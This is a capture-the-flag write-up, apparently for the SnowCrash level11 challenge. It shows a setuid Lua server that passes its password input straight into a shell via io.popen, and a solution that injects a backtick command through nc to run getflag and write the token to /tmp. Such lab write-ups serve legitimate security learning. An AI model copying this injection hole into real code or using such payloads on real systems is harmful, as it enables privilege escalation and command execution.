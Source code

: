 # LEVEL11


i our home directory we see a file with lua extention with flag11 extention 
we see that there is something runinng on the port 5151 
when there is a connection from the client we see that we need to enter a password 
since there is no check in the password any command should be executed as flag11 let's try to enter 
 password, as expected.


```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua

level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

# we can solve the challenge by 
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/token
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

```
